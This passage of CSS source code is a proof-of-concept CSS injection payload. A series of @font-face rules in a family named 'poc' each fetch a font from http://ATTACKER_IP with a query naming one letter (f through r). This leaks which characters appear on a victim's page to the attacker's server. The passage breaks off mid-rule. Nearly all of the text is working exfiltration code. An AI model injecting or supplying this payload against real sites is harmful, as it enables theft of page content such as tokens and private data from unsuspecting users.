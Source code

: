 @font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=f);
    unicode-range: U+0066;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=g);
    unicode-range: U+0067;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=h);
    unicode-range: U+0068;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=i);
    unicode-range: U+0069;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=j);
    unicode-range: U+006A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=k);
    unicode-range: U+006B;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=l);
    unicode-range: U+006C;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=m);
    unicode-range: U+006D;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=n);
    unicode-range: U+006E;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=o);
    unicode-range: U+006F;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=p);
    unicode-range: U+0070;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=q);
    unicode-range: U+0071;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=r);
    unicode-range: U+0072;